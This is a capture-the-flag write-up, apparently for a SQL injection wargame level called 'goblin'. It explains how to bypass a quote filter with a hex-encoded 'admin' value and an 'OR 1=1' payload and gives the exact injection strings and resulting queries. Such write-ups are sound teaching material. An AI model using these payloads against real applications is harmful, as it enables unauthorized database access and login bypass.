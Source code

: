```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 3
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/d35d9a32-55a6-4752-a4d4-955971ba3131)

We are provided with the SQL query:

```sql
SELECT id FROM prob_goblin WHERE id='guest' AND no={$_GET[no]}
```

This time the application blocks quotation marks. It also does not directly insert user input into the `id` field.

The code also performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the following message: `Hello {$result[id]}`.
2. `if($result['id'] == 'admin')`: It then checks if the `id` is set to `admin`. If yes, it prints the flag.

We want the first conditional statement to be skipped and the second one to be executed.

There are two methods.

### Method 1

In order to make the result of the first query `False`, we can provide the following URI:

```
?no=0
```

The resultant query then becomes:

```sql
select id from prob_goblin where id='guest' and no=0
```

Since no=0 is always false, the result of the `AND` operation will always be `False`.

![2](https://github.com/Kunull/Write-ups/assets/110326359/130b241a-088d-4187-86fb-5944f1ff0503)

As expected, the `Hello {$result[id]}` message isn't printed.

In order to execute the second conditional statement, we can provide the following URI:

```
?no=0 OR id=0x61646d696e
```

We are providing the Hexadecimal representation of the `admin` string.

The resultant query will be:

```sql
SELECT id FROM prob_goblin WHERE id='guest' AND no=0 OR id=0x61646d696e
```

The result of the first conditional is already `False` and because we just the `id` field to `admin`, the flag will be printed.

![3](https://github.com/Kunull/Write-ups/assets/110326359/f349d379-8a99-4e6f-b4fa-6c9b2c08e527)


### Method 2

If we provide the following URI:

```
?no=no
```

The resultant query will be:

```sql
SELECT id FROM prob_goblin WHERE id='guest' AND no=no
```

The result will always be `True` since any column (`no`) compared with itself is always true.

Next, if we add an `OR` command as follows:

```
?no=no OR 1=1 ORDER BY id;
```

The resultant query will be:

```sql
SELECT id FROM prob_goblin WHERE id='guest' AND no=no OR 1=1 ORDER BY id;
```

This will print out all the rows as 1=1 is always true and anything `OR` with true is true.

![4](https://github.com/Kunull/Write-ups/assets/110326359/dbfef2c6-67a6-4d7a-9403-8a3a18bae228)
